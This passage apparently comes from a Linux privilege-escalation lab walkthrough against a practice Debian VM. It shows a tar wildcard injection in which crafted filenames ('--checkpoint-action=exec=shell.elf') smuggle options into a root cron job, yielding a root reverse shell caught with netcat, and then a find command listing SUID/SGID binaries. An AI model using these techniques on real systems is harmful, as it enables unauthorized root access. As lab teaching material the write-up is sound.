 - Create these two files in /home/user:

    ```bash
    user@debian:~$ touch /home/user/--checkpoint=1
    user@debian:~$ touch /home/user/--checkpoint-action=exec=shell.elf
    ```

    When the tar command in the cron job runs, the wildcard (*) will expand to include these files. Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames.

- Set up a netcat listener on your Kali box on port 9999 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.

    ```bash
    $ nc -lnvp 9999
    listening on [any] 9999 ...
    connect to [10.11.25.205] from (UNKNOWN) [10.10.240.248] 48588
    whoami
    root
    ```

## SUID / SGID Executables - Known Exploits
- Find all the SUID/SGID executables on the Debian VM:

    ```bash
    user@debian:~$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
    -rwxr-sr-x 1 root shadow 19528 Feb 15  2011 /usr/bin/expiry
    -rwxr-sr-x 1 root ssh 108600 Apr  2  2014 /usr/bin/ssh-agent
    -rwsr-xr-x 1 root root 37552 Feb 15  2011 /usr/bin/chsh
    -rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudo
    -rwxr-sr-x 1 root tty 11000 Jun 17  2010 /usr/bin/bsd-write
    -rwxr-sr-x 1 root crontab 35040 Dec 18  2010 /usr/bin/crontab
    -rwsr-xr-x 1 root root 32808 Feb 15  2011 /usr/bin/newgrp
    -rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudoedit
    -rwxr-sr-x 1 root shadow 56976 Feb 15  2011 /usr/bin/chage
    -rwsr-xr-x 1 root root 43280 Feb 15  2011 /usr/bin/passwd
    -rwsr-xr-x 1 root root 60208 Feb 15  2011 /usr/bin/gpasswd
    -rwsr-xr-x 1 root root 39856 Feb 15  2011 /usr/bin/chfn
    -rwxr-sr-x 1 root tty 12000 Jan 25  2011 /usr/bin/wall
    -rwsr-sr-x 1 root staff 9861 May 14  2017 /usr/local/bin/suid-so
    -rwsr-sr-x 1 root staff 6883 May 14  2017 /usr/local/bin/suid-env
    -rwsr-sr-x 1 root staff 6899 May 14  2017 /usr/local/bin/suid-env2
    -rwsr-xr-x 1 root root 963691 May 13  2017 /usr/sbin/exim-4.84-3
    -rwsr-xr-x 1 root root 6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
    -rwsr-xr-x 1 root root 212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
    -rwsr-xr-x 1 root root 10592 Feb 15  2016 /usr/lib/pt_chown
    -rwsr-xr-x 1 root root 36640 Oct 14  2010 /bin/ping6
    -rwsr-xr-x 1 root root 34248 Oct 14  2010 /bin/ping
    -rwsr-xr-x 1 root root 78616 Jan 25  2011 /bin/mount
    -rwsr-xr-x 1 root root 34024 Feb 15  2011 /bin/su
    -rwsr-xr-x 1 root root 53648 Jan 25  2011 /bin/umount
    -rwxr-sr-x 1 root shadow 31864 Oct 17  2011 /sbin/unix_chkpwd
    -rwsr-xr-x 1 root root 94992 Dec 13  2014 /sbin/mount.nfs
    ```
